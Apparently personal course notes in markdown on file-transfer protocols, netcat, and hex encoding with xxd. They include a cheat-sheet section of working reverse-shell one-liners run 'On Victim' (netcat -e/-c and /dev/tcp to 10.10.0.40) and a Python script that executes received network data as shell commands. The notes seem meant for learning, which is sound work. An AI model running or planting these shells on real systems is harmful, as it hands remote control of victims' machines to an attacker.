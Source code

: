# mknod
# steghide extract -sf 


# File Transfer methods 
    scp
        uses port 22 for transport 
        uses asymmetric and symmetric encryption
        non interactive 
    OPTIONS
     . - present working directory 
    -v - verbose method
    -P - alternate port
    -r - recursively copies the whole directory
    -3 - three way copy


        
    FTP
        Uses 2 separate tcp connections 
        command and control (21), data transfer (20)
        anonymous login
        insecure
        passive and active connections
    TFTP
        UDP based
        small and simple comms
        insecure, No encryption or encoding
        No directory services
    FTPS
        secure
        uses ports 20/21 regular
        uses ports 989/990 for encryption
        interactive terminal access
    
    SFTP
        transport 22
        uses symetric and asymetric encryption

# Active    
![FTP](https://github.com/user-attachments/assets/ada2309a-4eca-4023-9f60-a927a956efad)
# Passive 
![FTP](https://github.com/user-attachments/assets/9dfee368-0537-41cb-adc4-d65fa361457e)


    Netcat - swiss army hoe
        can be used for tcp/udp inbound and outbound connections

        
<h5> Listener (receive file): <h5>
    
     nc -lvp 9001 > newfile.txt

<h5>Client (sends file): </h5>  

     nc 172.16.82.106 9001 < file.txt

# Reverse Shell using NC

 First listen for the shell on your device.

        $ nc -lvp 9999

On Victim using -c :

    $ nc -c /bin/bash 10.10.0.40 9999

On Victim using -e :

    $ nc -e /bin/bash 10.10.0.40 9999

# Reverse shell using /dev/tcp

First listen for the shell on your device.

    $ nc -lvp 9999

On Victim:

    $ /bin/bash -i > /dev/tcp/10.10.0.40/9999 0<&1 2>&1

# Reverse shell using python 3
    
    #!/usr/bin/python3
    import socket
    import subprocess
    PORT = 1234        # Choose an unused port
    print ("Waiting for Remote connections on port:", PORT, "\n")
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind(('', PORT))
    server.listen()
    while True:
        conn, addr = server.accept()
        with conn:
            print('Connected by', addr)
            while True:
                data = conn.recv(1024).decode()
                if not data:
                    break
                proc = subprocess.Popen(data.strip(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, err = proc.communicate()
                response = output.decode() + err.decode()
                conn.sendall(response.encode())
    server.close()
    

# xxd example

echo a string of text and use xxd to convert it to a plain hex dump with the -p switch\

    $ echo "Hex encoding test" | xxd -p 48657820656e636f64696e6720746573740a

echo hex string and use xxd to restore the data to its original format

    $ echo "48657820656e636f64696e6720746573740a" | xxd -r -p Hex encoding test























    
